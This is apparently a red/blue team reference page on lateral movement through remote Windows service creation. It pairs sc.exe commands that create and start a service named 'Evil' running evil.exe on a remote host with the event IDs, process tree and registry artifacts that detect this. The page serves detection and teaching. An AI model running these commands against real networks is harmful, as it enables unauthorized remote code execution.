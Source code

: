 # Services

## Requirement

| Subject   | Value                         |
| --------- | ----------------------------- |
| Port      | 139                           |
| Authority | Administrators, Domain Admins |
| Service   | -                             |

## <mark style="color:red;">RedTeam</mark> <a href="#remote-service-creation" id="remote-service-creation"></a>

### **sc.exe**

```powershell
# Create 'Evil' service on '10.0.77.130' which this serivce set to run 'evil.exe'
sc \\10.0.77.130 create Evil binpath= "C:\windows\temp\evil.exe"

# Start 'Evil' service
sc \\10.0.77.130 start Evil
```

## <mark style="color:blue;">BlueTeam</mark>

### Process Tree (target host)

* services.exe
  * evil.exe

### Event Logs (source host)

| Source        | Event ID                                               | Condition                                                                                                 | Focus On                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| ------------- | ------------------------------------------------------ | --------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Security.evtx | 4648: A logon was attempted using explicit credentials | Process Information\Process Name == \*sc.exe                                                              | <p><strong>Target IP</strong><br><strong></strong>(Network Information\Network Address)<br><br><strong>Target Server Name</strong><br><strong></strong>(Target Server\Target Server Name)</p>                                                                                                                                                                                                                                                                                                                        |
| Security.evtx | 4688: A new process has been created                   | Process Information\New Process Name == \*sc.exe AND Process Information\Process Command Line == \*\\\\\* | <p><strong>Parent Process ID</strong><br><strong></strong>(Process Information\Creator Process ID)<br><br><strong>Parent Process</strong><br><strong></strong>(Process Information\Creator Process Name)<br><br><strong>Process ID</strong><br><strong></strong>(Process Information\New Process ID)<br><br><strong>Process Name</strong><br><strong></strong>(Process Information\New Process Name)<br><br><strong>Process Command Line</strong><br><strong></strong>(Process Information\Process Command Line)</p> |

### Event Logs (target host)

| Source        | Event ID                                    | Condition                              | Focus On                                                                                                                                                                                                                                                  |
| ------------- | ------------------------------------------- | -------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Security.evtx | 4624: An account was successfully logged on | Logon Type == 3                        | <p><strong>Source IP</strong><br><strong></strong>(Network Information\Source Network Address)<br><br><strong>Account Domain</strong><br><strong></strong>(New Logon\Account Domain)<br><br><strong>Account Name</strong><br>(New Logon\Account Name)</p> |
| Security.evtx | 4688: A new process has been created        | Creator Process Name == \*services.exe | <p><strong>Process Name</strong><br><strong></strong>(Process Information\New Process Name Process)<br><br><strong>Command Line</strong><br><strong></strong>(Information\Process Command Line)</p>                                                       |
| System.evtx   | 7045: A service was installed in the system | -                                      | <p><strong>Service Name</strong><br><strong></strong>(Service Name)<br><br><strong>Service File Name</strong><br><strong></strong>(Service File Name)</p>                                                                                                 |

### Artifacts

| Type     | Location                                           |
| -------- | -------------------------------------------------- |
| Registry | SYSTEM\CurrentControlSet\Services\\\<Service Name> |
